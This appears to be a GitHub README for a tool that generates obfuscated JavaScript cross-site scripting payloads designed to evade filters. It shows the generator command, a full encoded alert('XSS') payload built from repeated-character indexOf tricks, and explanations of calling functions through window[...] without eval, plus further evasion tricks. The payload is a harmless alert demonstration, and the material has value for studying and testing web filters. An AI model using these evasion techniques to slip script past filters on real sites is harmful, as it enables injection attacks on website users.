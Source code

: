 # Obfuscated XSS for filter evasion

Playing with JavaScript for fun and XSS evasion.

## Usage

To generate an alert box containing 'XSS':

    python make_s.py alert -p XSS -o out.js

Should generate this:

    var f = window[String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())];
    f(String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf())+String.fromCharCode('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAundefined'.indexOf()));

To see what happened:

    cat pre out.js post > out.html

Then open ``out.html`` with your browser. You should see an alert box.

## Why

This is valid JavaScript:

    var foo = 'AAAAundefined'.indexOf();
    // 'foo' is now 4
    var chr = String.fromCharCode(97 + foo);
    // 'chr' is now 'e'

So one could encode a string like 'alert("XSS")' using any character repeated N times (with N the ASCII value of the character) followed by the string 'undefined'.

However, writing 'alert' is not enough; we'd like to execute it. To do so without an explicit call to 'eval':

    var f = window['alert'];
    var g = 'the parameter';
    // will alert 'the parameter'
    f(g);

We're trying to evade filters here and the assumption is a naive filter
that searches for occurrence of 'eval'. There are other ways to execute
code (e.g. new ``Function()``, ``setTimeout`` etc.) and this is just an
example.

Ultimately:

    1. Take a payload e.g. 'alert("XSS")'
    2. Encode the function call 'alert' and the parameter '"XSS"' using the 'indexOf' trick
    3. Execute the function using the 'window' trick

## MOAR Tricks

When generating the payload, to avoid the call to 'fromCharCode' use this (only for letters, as 36 here is a base):

    (11).toString(36); = 'b'

Also to avoid the 'undefined' string, use an empty function:

    function f() {}
    var foo = 'AAAA' + f();
    var foo2 = foo.indexOf()

## Thanks to

For the inspiration [this post by Neil Fraser][1]. For implementation, [this SO answer][2] and [this post][3].

 [1]: https://neil.fraser.name/news/2016/10/07/ 
 [2]: http://stackoverflow.com/questions/3145030/convert-integer-into-its-character-equivalent-in-javascript
 [3]: http://viralpatel.net/blogs/calling-javascript-function-from-string/
